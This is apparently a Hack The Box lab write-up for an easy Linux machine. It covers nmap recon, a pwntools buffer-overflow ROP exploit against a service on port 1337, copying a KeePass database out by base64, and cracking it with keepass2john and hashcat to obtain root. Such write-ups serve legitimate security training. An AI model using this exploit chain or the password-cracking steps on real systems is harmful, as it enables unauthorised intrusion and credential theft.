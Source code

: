 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## Recon

### Nmap Scan
Identified open ports:
- **TCP 80** [HTTP](HTTP.md)
- **TCP 1337** (discovered via source code comment)

Performed additional scans:
```bash
nmap -sC -sV -p- 10.10.10.147
```

### Nikto Scan
Revealed default Apache page and /manual directory. A comment in the source code hinted at port 1337 and a downloadable binary (`myapp`).

## Binary Analysis (Buffer Overflow)

### Initial Test
Ran `myapp`, asked user input. Created a basic overflow with Python:
```python
print("A" * 200)
```
Submitted 200 A's and caused a crash.

### Using GDB (with peda)
- Ran `checksec`:
  - NX enabled
  - RELRO Partial
- Set follow mode: `set follow-fork-mode parent`
- Ran program with cyclic pattern from pwntools:
```python
from pwn import *
cyclic(200, n=8)
```

Used `x/xg $rsp` to get the address and determine the offset with:
```bash
pattern offset -q <value from RSP>
```
Offset identified: **120**

### Using Radare2
```bash
r2 -d myapp
[0x00000000]> aaa
[0x00000000]> afl
```
Revealed functions:
- `main` uses `/usr/bin/uptime` with a `system()` call
- `test` function contains a usable `pop r13; ret` gadget

### Using ROPgadget
Found:
- `pop r13; pop r14; pop r15; ret`

## ROP Chain Construction
- Place `/bin/sh` into memory
- Set r13 to `system@plt`
- Use gadget to pop r13, r14, r15 with dummy values
- Jump to `test()`

## Exploit Script
Local exploit with pwntools:
```python
from pwn import *
context.binary = './myapp'
p = process('./myapp')

offset = 120
pop_r13_r14_r15 = p64(0xdeadbeef)
system = p64(0xdeadbeef)
binsh = b"/bin/sh\x00"

payload = b"A" * offset
payload += pop_r13_r14_r15
payload += system
payload += p64(0x0) * 2
payload += p64(address_of_test)

p.sendlineafter("echo back?", payload)
p.interactive()
```

## Remote Exploitation
Modified above to use remote connection:
```python
p = remote('10.10.10.147', 1337)
```
Gained shell and accessed:
```bash
cat /home/user/user.txt
```

## Root Flag (KeePass)
### KeePass DB Found
- File: `MyPasswords.kdbx`
- Images: `IMG_0547.JPG`, etc.

### Exfiltration
- Base64 encoded files and copied to local machine
```bash
base64 MyPasswords.kdbx > kdbx.b64
```
- Decoded on attacker box
```bash
base64 -d kdbx.b64 > MyPasswords.kdbx
```

### SSH Key Auth Setup
- Generated RSA key pair
- Copied public key to `~/.ssh/authorized_keys`

### File Transfer
```bash
scp -i id_rsa user@10.10.10.147:IMG_0547.JPG .
```

### KeePass2John
Generated hash:
```bash
keepass2john MyPasswords.kdbx IMG_0547.JPG > hash.txt
```

### Cracking
```bash
hashcat -a 0 -m 13400 hash.txt rockyou.txt
```
Found password: `somepass123`

### Unlock DB
Used KeePassXC:
- Password: `somepass123`
- Key file: `IMG_0547.JPG`
- Retrieved: **Root password**

### Root Access
```bash
ssh -i id_rsa user@10.10.10.147
su root
```
Used KeePass creds for `root`, accessed:
```bash
cat /root/root.txt
```

## Flags
- **User:** `xxxx...`
- **Root:** `xxxx...`

## Resources
- [ROP Emporium](https://ropemporium.com/)
- [Pwntools Docs](http://docs.pwntools.com/en/stable/)
- [Keepass2John Guide](https://rubydevices.com.au/blog/how-to-hack-keepass)